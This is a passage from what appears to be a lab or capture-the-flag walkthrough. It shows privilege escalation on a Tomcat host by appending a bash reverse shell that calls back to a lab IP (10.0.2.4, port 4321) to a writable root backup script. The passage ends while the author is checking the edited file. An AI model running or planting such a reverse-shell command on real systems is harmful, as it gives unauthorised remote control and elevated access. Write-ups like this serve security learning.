 ```bash
cat /usr/local/bin/backup.sh
#!/bin/bash
####################################
#
# Backup to NFS mount script.
#
####################################

# What to backup. 
backup_files="/opt/tomcat/"

# Where to backup to.
dest="/var/backups"

# Create archive filename.
day=$(date +%A)
hostname=$(hostname -s)
archive_file="$hostname-$day.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"
date
echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"
date

# Long listing of files in $dest to check file sizes.
ls -lh $dest
```
It looks like it is used to backup indeed some files. Since I am allowed to edit the file I decided to append the file with a reverse shell.

## Privilege escalation
To append this file I use the following command: **echo "bash -c 'exec bash -i &>/dev/tcp/10.0.2.4/4321 <&1'" >>/usr/local/bin/backup.sh**
This will add a bash command at the end (bottom) of the file trying to make a connection to my attacker machine which has a listener on port 4321.

```bash
echo "bash -c 'exec bash -i &>/dev/tcp/10.0.2.4/4321 <&1'" >>/usr/local/bin/backup.sh
```
Now let's check if the file was appended correctly.
```bash
cat /usr/local/bin/backup.sh
#!/bin/bash
####################################
#
# Backup to NFS mount script.
#
####################################

# What to backup. 
backup_files="/opt/tomcat/"

# Where to backup to.
dest="/var/backups"

```